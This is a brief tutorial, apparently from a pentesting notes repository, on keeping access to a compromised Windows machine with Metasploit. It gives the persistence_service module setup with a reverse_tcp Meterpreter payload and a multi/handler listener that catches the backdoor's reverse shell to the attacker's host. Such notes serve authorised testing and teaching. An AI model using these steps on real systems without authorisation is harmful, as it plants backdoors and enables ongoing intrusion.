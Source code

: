 
Persistence is a key post-exploitation step that allows an attacker to maintain access to a compromised system even after it has been rebooted or the initial session has been closed.

## Metasploit

1. Gain a Meterpreter session on the target machine 
2. Load the `persistence_service` module
```bash
use exploit/windows/local/persistence_service
```

3. Set Required Options

- `SESSION`: The session ID of the active Meterpreter session.
- `PAYLOAD`: The payload you want to execute persistently (e.g., `windows/meterpreter/reverse_tcp`).
- `LHOST`: The attacker's IP address to receive the connection.
- `LPORT`: The port on which the listener will be running.

4. Run the module

#### Recovering Access After Using the Persistence Module
After deploying the persistence module in Metasploit, if the session ends unexpectedly (due to reboot or network loss), you can regain access using the `multi/handler` module. The backdoor created by the module ensures that the payload will reconnect to the attacker's machine whenever executed on the target.
```bash
use multi/handler
set payload <payload_type>       
set LHOST <attacker_ip>         
set LPORT <listening_port>       
exploit
```
